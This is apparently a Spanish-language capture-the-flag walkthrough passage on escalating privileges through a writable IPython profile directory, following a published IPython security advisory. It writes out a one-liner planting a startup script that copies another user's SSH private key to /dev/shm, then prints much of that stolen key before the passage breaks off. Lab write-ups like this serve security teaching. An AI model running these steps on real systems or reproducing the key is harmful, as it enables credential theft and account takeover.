 La tarea esta matando procesos de **ipython** ademas esta entrando en el directorio el cual tenemos capacidad de escritura y esta ejecutando **ipython**

En su repositorio de **Github** nos dicen como podemos elevar nuestro privilegio <https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x>

Vamos a seguir los pasos que nos muestran del **Proof of concept**

Primeros vamos a crearnos un directorio después dentro del directorio **profile_default** crea otro directorio con el nombre **startup** y después crea un script con nombre `foo.py` y le mete contenido y podemos decirle que como el usuario que queremos convertirnos esta corriendo el proceso pues que cuando se inicie se ejecuta el script y nos de clave `id_rsa` y no la ponga en una ruta del sistema para poder conectarnos por **SSH** con ese usuario

```bash
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default && mkdir -m 777 profile_default/startup && echo 'import os; os.system("cat ~/.ssh/id_rsa > /dev/shm/key")' > profile_default/startup/foo.py
james_mason@shared:/opt/scripts_review$ 
```

Ahora que se ejecuta la tarea y ejecuto el script de python3 entonces podemos ver la clave privada

```bash
james_mason@shared:/opt/scripts_review$ ls -l /dev/shm
total 3036
-rw-r--r-- 1 dan_smith   dan_smith      2602 Jun 13 17:31 key
-rwxr-xr-x 1 james_mason james_mason 3104768 Jun 13 17:13 pspy64
james_mason@shared:/opt/scripts_review$ 
```

Esta es su clave privada

```bash
james_mason@shared:/opt/scripts_review$ cat /dev/shm/key 
-----BEGIN OPENSSH PRIVATE KEY-----
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
```